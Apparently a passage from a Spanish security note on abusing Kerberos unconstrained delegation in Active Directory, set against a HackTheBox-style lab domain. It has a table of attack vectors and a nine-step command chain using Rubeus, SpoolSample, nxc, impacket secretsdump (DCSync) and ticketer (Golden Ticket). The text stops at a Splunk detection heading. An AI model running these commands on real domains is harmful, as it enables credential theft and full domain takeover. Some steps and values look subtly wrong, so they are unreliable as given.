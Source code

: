 | Vector/Nombre              | Descripción breve                                                                                   |
|----------------------------|----------------------------------------------------------------------------------------------------|
| **Compromiso de servidor con delegación** | El atacante compromete un servidor configurado con delegación no restringida y extrae TGTs almacenados en memoria. |
| **SpoolSample + Unconstrained** | Combina CVE de impresión con delegación para forzar al DC a autenticarse y capturar su TGT. |
| **Coerción de autenticación** | Usa técnicas como PetitPotam, PrinterBug o WebClient para forzar autenticación de cuentas privilegiadas. |
| **Extracción de TGT de memoria** | Usa Rubeus, Mimikatz o técnicas de volcado de memoria para extraer tickets almacenados. |
| **TGT forwarding** | Reutiliza TGTs capturados para acceder a cualquier servicio del dominio como el usuario original. |
| **Persistence via delegation** | Mantiene acceso configurando nuevos servicios con delegación no restringida. |

---

## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Enumerar servicios con delegación no restringida
findDelegation.py -target-domain soporte.htb -hashes :aad3b435b51404eeaad3b435b51404ee

# 2. Con Rubeus - buscar delegación no restringida
.\Rubeus.exe tgtdeleg /targetuser:SERVIDOR01$ /domain:soporte.htb /dc:dc.soporte.htb

# 3. Comprometer servidor con delegación (ejemplo: credenciales válidas)
nxc smb 10.10.11.174 -u administrador -p Password123 -x "whoami"

# 4. Extraer TGTs almacenados en memoria del servidor comprometido
.\Rubeus.exe dump /luid:0x14794e /service:krbtgt

# 5. Alternativamente, forzar autenticación del DC usando SpoolSample
python3 SpoolSample.py soporte.htb/usuario:Password123@DC.SOPORTE.HTB SERVIDOR01.SOPORTE.HTB

# 6. Monitorear y capturar el TGT del DC cuando se autentique
.\Rubeus.exe monitor /targetuser:DC$ /interval:5

# 7. Usar el TGT capturado para autenticarse como el DC
.\Rubeus.exe ptt /ticket:doIFuj...

# 8. DCSync para obtener hashes de todo el dominio
impacket-secretsdump -just-dc soporte.htb/DC$@DC.SOPORTE.HTB -k -no-pass

# 9. Crear Golden Ticket para persistencia
impacket-ticketer -nthash aad3b435b51404eeaad3b435b51404ee -domain-sid S-1-5-21-... -domain soporte.htb Administrator
```

---

## 📋 Caso de Uso Completo Splunk
